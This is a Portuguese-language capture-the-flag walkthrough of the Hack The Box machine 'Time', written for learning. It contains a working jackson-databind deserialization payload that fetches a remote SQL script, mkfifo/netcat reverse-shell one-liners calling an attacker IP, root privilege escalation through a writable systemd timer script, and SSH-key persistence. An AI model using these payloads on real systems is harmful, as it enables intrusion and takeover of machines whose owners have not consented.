```yaml
---
title: 'Walktrough: HTB Time'
namespace: htb-time
language: pt-BR
category: Walkthrough
tags:
- HackTheBox
- Jackson
- FasterXML
- Service Hijack
- HTB Linux
- HTB Medium
date: 2021-04-03T16:00:00.000+00:00
header:
  teaser: https://i.imgur.com/jiSvU4u.png
  og_image: https://i.imgur.com/jiSvU4u.png
redirect_from: "/writeup/2021/04/htb-time"

---
```

Olá pessoal!

A máquina desta semana será **Time**, outra máquina Linux classificada como mediana do [Hack The Box](https://www.hackthebox.eu), criada por [egotisticalSW](https://app.hackthebox.eu/users/94858) e [felamos](https://app.hackthebox.eu/users/27390).<!--more-->

:information_source: **Info**: Write-ups para máquinas do Hack The Box são postados assim que as respectivas máquinas são aposentadas
{: .notice--info}

![HTB Time](https://i.imgur.com/mJmeefG.png){: .align-center}

## Enumeração

Iniciamos com a enumeração dos serviços publicado a partir de um quick scan do `nmap`, onde o output se encontra abaixo.

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.214
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 16:08 -03
Nmap scan report for 10.10.10.214
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

### 80/TCP - Serviço HTTP

Iniciando a verificação pelo serviço HTTP que executa na porta 80, vemos que temos um serviço de validação e formatação de arquivo JSON

![Online JSON Parser - Time](https://i.imgur.com/V6RbC9L.png){: .align-center}

Após executar algumas enumerações utilizando `whatweb` e `nikto` não encontrei nada útil, logo parti para a enumeração da aplicação buscando por alguma vulnerabilidade de injeção de código ou LFI.

Analisando a aplicação temos duas funcionalidades: **Beautify** e **Validate**:

- A opção **beautify**, ao receber um JSON válido, o formata de forma "bonita" e, ao enviar um request inválido (por exemplo "test"), retorna o valor `null`.

![Online JSON Parser - Time - beautify](https://i.imgur.com/tpO2p3r.png){: .align-center}

- Já a opção em beta **validate** verifica a sintaxe do JSON fornecido. Quando enviamos um request inválido (por exemplo "test"), exceção não esperada da aplicação é exibida.

```plaintext
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN
```

## Acesso inicial

Ao buscar por `com.fasterxml.jackson.core` encontrei detalhes sobre o projeto **Jackson**, desenvolvido pela **FasterXML** e do qual o componente core é base para o [jackson-databind](https://github.com/FasterXML/jackson-databind), popular pela sua biblioteca de JSON, a qual é implementada neste portal para as funcionalidades de validação e formatação.

Pesquisando por CVEs para o jackson-databind, os seguintes foram encontrados para execução de código em 2019, de acordo com o site [CVE Details](https://www.cvedetails.com):

![CVE Details](https://i.imgur.com/T2Kth6e.png){: .align-center}

Dos 4 itens listados, encontrei para o **CVE-2019-12384** um PoC funcional [neste blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html), o qual utilizei para obter o acesso inicial. Os seguintes passos foram executados para obter um shell reverso:

- Criação de um arquivo `inject.sql` com o código abaixo, modificado da versão do blog para iniciar um shell reverso para a máquina atacante na porta 4443 e publicado usando um servidor HTTP python3 (`sudo python3 -m http.server 80`) a partir do diretório de onde o arquivo se encontra.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    String[] command = {"bash", "-c", cmd};
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f')
```

- Configurando listener via netcat com o comando `nc -lnvp 4443`.
- Enviado o payload abaixo na aplicação no lugar do JSON a ser validado.

```plaintext
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.10.10/inject.sql'"}]
```

![Listener and Webserver - Time](https://i.imgur.com/7o42urH.png){: .align-center}

![Online Json Parser - Sending the payload](https://i.imgur.com/Pv2Vbzy.png){: .align-center}

## User flag

Após upgrade do shell, iniciado enumeração e identificado que o usuário utilizado, **pericles**, era um usuário comum do Linux e não possuía nenhum tipo de privilégio especial.

```bash
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

Acessando seu diretório raiz, encontrado o user.txt onde foi obtido o primeiro flag.

```bash
pericles@time:/var/www/html$ cd ~
pericles@time:/home/pericles$ cat user.txt 
<redacted>
pericles@time:/home/pericles$ 
```

## Root flag

Antes de dar continuidade na enumeração, para simplificar o processo de obtenção de um shell reverso se necessário, criado uma chave SSH usando o `ssh-keygen` e incluído a chave pública no arquivo `~/.ssh/authorized_keys`, o que nos permidiu conectar diretamente ao usuário pericles via SSH.

A enumeração foi realizada utilizando o script `linpeas.sh` e um dos itens encontrados chamou bastante atenção, fazendo referência ao nome da máquina: um arquivo shell de propriedade do usuário `pericles` no caminho `/usr/bin/timer_backup.sh`.

Este arquivo está configurado para execução através de um **system timer** (`/etc/systemd/system/timer_backup.timer` e `/etc/systemd/system/timer_backup.service`) e configurado para execução **a cada 10s** com privilegios de `root`.

Como temos privilégios para editar o shell script, inclui a linha abaixo para obter um shell reverso e, após alguns segundos, recebi um shell reverso! :smile:

```bash
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g
```

Como o processo é reexecutado após 10s, todos os processos existentes são finalizados e perdemos a conexão com a máquina. Apenas obter o flag de root é uma tarefa possível neste tempo, o que foi utilizado inicialmente.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.214] 33304
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
#      
```

Caso queira uma conexão mais persistente temos duas opções iniciais:

- Configurar o system timer para incluir a chave pública no arquivo `/root/.ssh/authorized_keys`, nos permitindo conectar via SSH como `root`.
- Iniciar outro shell reverso assim que obtermos a conexão inicial, que pode ser alcançado de múltiplas formas como Metasploit AutoRunScript e colocando uma instrução para ser passada assim que uma conexão via netcat é estabelecida, conforme podemos ver abaixo onde o comando `id` é executado assim que a sessão é iniciada:

```bash
printf "id\n" | nc -lnvp 4443
```

Espero que tenha sido útil e vejo vocês no próximo post! :smiley:
